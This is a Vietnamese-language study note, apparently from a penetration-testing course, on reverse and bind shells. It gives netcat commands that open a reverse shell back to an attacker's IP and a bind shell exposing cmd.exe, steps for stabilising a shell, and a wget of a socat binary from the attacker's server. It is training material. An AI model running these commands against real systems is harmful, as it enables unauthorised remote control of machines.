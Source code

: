 <h1>Shell</h1>

Về cơ bản shell là một giao diện để tương tác với CLI của OS như bash hoặc sh trong Linux, cmd.exe hoặc Powershell trong Windows\
Có 2 dạng shell cơ bản thường được sử dụng trong tấn công,\
reverse shell sử dụng để giúp hacker có quyền access đến command line\
bind shell sử dụng để mỏe port trên server mà hacker có thể kết nối tới\

<h2>Tools</h2>

Một số tool thường được sử dụng để tương tác với shell bao gồm:\
**Netcat\
Socat\
Metasploit --multi/handler\
Msfvenom**

<h2>Types of Shell</h2>

Như đã nói ở trên, 2 loại Shell chính được dùng trong tấn công là: **Reversel Shells** và **Bind Shells**\
>**Reverse Shells** được sử dụng để buộc mục tiêu phải thực hiện kết nối ngược lại về máy của kẻ tấn công. Và trên máy tấn công sẽ sử dụng các tools liệt kê ở mục 2 để lắng nghe các kết nối gọi về.
>Đây là một cách thức sử dụng để bypass firewall rule.\
>**Bind Shells** được sử dụng để mở cổng trên máy mục tiêu và kẻ tấn công sẽ kết nối tới cổng này để thực hiện các hành vi của mình.
>Điểm yếu của shell này là có thể bị tường lửa chặn.

VD về Shell:\
**Reverse Shells**\
Trên máy tấn công:
```console
sudo nc -lvnp 443
```
Trên máy mục tiêu:
```console
nc <Local_IP> <Port> -e /bin/bash
```
![image](https://user-images.githubusercontent.com/95600382/149742730-750f251d-8cbf-4d10-945e-5e84933c86e4.png)\
**Bind Shells**\
Trên máy mục tiêu:
```console
nc -lvnp <port> -e "cmd.exe"
```
Trên máy tấn công:
```console
nc MACHINE_IP <port>
```
![image](https://user-images.githubusercontent.com/95600382/149743149-7f919a1c-81e4-483c-84fe-8e687bdfadc1.png)\
Shell có 2 loại tương tác *interactive* và *non-interactive*:\
Interactive: Shell này sẽ tương tác với các chương trình có trên máy đích sau khi được thực thi. VD:\
![image](https://user-images.githubusercontent.com/95600382/149744064-e33674f7-1a82-4a36-b347-a37ac7dc8cb6.png)\
Non-Interactive: Đơn giản hơn nhưng nó sẽ khó để thực hiện khai thác hơn. VD:\
![image](https://user-images.githubusercontent.com/95600382/149744218-678e2251-a0d6-4a14-b77c-e0cbd8b81b3a.png)\

<h2>Netcat</h2>

Câu lệnh sử dụng netcat để lắng nghe trên Linux:\
*Revesel Shells*
```console
nc -lvnp <port-number>
```
Trong đó:\
-l: set netcat là listener\
-v: verbose\
-n: k sử dụng DNS\
-p: port\
*Bind Shells*
```console
nc <target-ip> <chosen-port>
```
<h2>Netcat Shell Stabilisation</h2>

*C1: Sử dụng Python để tunning Shell*\
Áp dụng cho Linux vì Python gần như luôn được cài đặt mặc định. Có 3 bước để áp dụng:\
1. Sử dụng `python -c 'import pty;pty.spawn("/bin/bash")'` để import thư viện pty và chạy lệnh sau ;
2. `export TERM=xterm` cho phép sử dụng các term command như clear
3. Sử dụng Ctrl + Z để khiến shell chạy ngầm. Quay trở lại giao diện sử dụng `stty raw -echo; fg` để xác thực kết nối lại vào shell
VD:\
![image](https://user-images.githubusercontent.com/95600382/149748187-9e596b74-2f8b-46dc-bbda-f4f47bf98e1e.png)\
*C2: Sử dụng rlwrap*\
Note: rlwrap không được cài đặt mặc định trên Kali. `sudo apt install rlwrap`\
Lệnh sử dụng:
```console
rlwrap nc -lvnp <port>
```
Đây là một kỹ thuật sử dụng tốt cho các Windows Shell.
*C3: Socat*\
Note: Kỹ thuật này chỉ áp dụng cho Linux. Để thực hiện kỹ thuật này trc tiên chúng ta cần up một file `socat static compiled binary` lên mục tiêu.\
Cách dễ nhất là host một server với python:\
```console
sudo python3 -m http.server 80
wget <LOCAL-IP>/socat -O /tmp/socat (hoặc curl)
```

